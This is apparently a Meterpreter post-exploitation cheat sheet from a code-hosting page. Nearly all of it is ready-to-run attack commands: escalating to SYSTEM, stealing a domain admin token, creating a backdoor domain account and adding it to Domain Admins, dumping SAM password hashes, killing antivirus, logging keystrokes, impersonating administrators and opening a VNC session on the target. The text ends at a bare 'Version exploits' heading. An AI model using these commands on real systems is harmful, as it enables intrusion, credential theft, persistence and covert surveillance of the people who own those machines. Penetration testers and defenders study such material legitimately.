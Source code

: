 **Elevate your permissions**
```bash
use priv
getsystem
```
**Steal a domain administrator token from a given process ID, add a
domain account, and then add it to the Domain Admins group:**
```powershell
#View process
ps
#Steal the token 
steal_token <PID>
#Get a shell on the system
shell
#Create user
net user abuqasem Pass123 /ADD /DOMAIN
#ADd user to the group
net group "Domain Admins" abuqasem /ADD /DOMAIN
```
**Dump password hashes from the SAM database:**
```bash
use priv
getsystem
hashdump
```
> NOTE:
On Win2k8 you may need to migrate to a process that is running as SYSTEM if getsystem and hashdump throw exceptions.

**Automigrate to a separate process:**
```cmd
run migrate
```
**Kill antivirus processes running on the target via the killav Meterpreter script:**
```txt
run killav
```
**Capture keystrokes on target machines from within a particular process:**
```txt
ps
migrate 1436
keyscan_start
keyscan_dump
keyscan_stop
```
**Use Incognito to impersonate an administrator:**
```txt
use incognito
list_tokens -u
use priv
getsystem
list_tokens -u
impersonate_token IHAZSECURITY\\Administrator
```
**what protection mechanisms are in place on the compromised
target:**
```txt
run getcountermeasure -h
```
**Identify whether the compromised system is a virtual machine:**
```bash
run checkvm
```
**Get a remote GUI (VNC) on the target machine:**
```bash
run vnc
```
**Version exploits**